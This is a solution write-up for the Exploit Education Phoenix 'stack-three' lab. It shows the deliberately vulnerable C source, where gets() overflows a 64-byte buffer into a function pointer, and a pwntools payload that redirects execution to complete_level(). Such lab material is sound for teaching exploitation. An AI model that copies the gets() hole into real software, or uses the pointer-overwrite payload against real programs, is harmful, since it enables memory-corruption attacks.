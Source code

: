 Source
```c
/*
 * phoenix/stack-three, by https://exploit.education
 *
 * The aim is to change the contents of the changeme variable to 0x0d0a090a
 *
 * When does a joke become a dad joke?
 *   When it becomes apparent.
 *   When it's fully groan up.
 *
 */

#include <err.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define BANNER \
  "Welcome to " LEVELNAME ", brought to you by https://exploit.education"

char *gets(char *);

void complete_level() {
  printf("Congratulations, you've finished " LEVELNAME " :-) Well done!\n");
  exit(0);
}

int main(int argc, char **argv) {
  struct {
    char buffer[64];
    volatile int (*fp)();
  } locals;

  printf("%s\n", BANNER);

  locals.fp = NULL;
  gets(locals.buffer);

  if (locals.fp) {
    printf("calling function pointer @ %p\n", locals.fp);
    fflush(stdout);
    locals.fp();
  } else {
    printf("function pointer remains unmodified :~( better luck next time!\n");
  }

  exit(0);
}
```

# Solution

I dunno why the comment in the source persisted from the last one, but you can safely ignore the rubbish about the changeme variable. The real goal is to make execution flow to the complete_level() function.

Much like the previous challenges, the buffer is filled with user input. Except this time we're overwriting the function pointer `locals.fp`

To find the address of `complete_level()` we can use the program `objdump`

![](_attachments/Pasted%20image%2020230323205853.png)

Python3 HATES printing raw bytes to stdout, so this is where I use `pwntools` to make this easy as hell:

```bash
 python -c 'from pwn import *; out = "A"*64; out += p64(0x40069d);print(out)' | ./stack-three
```

This is just a one liner for:

```python
from pwn import *

# fill up the buffer
out = "A" * 64
#use the p64 function to automatically account for \x and endian-ness
out += p64(0x40069d)
# print it out
print(out)
```


The magic here is in the p64() function. It automatically turns the address into a proper little endian 64-bit address.. it saves us having to manually write out `\x9d\x06\x40\x00\x00\x00\x00\x00` and manually figure a way for python3 to print raw bytes (which is why bad devs stuck with python2 for ages)

![](_attachments/Pasted%20image%2020230324144055.png)
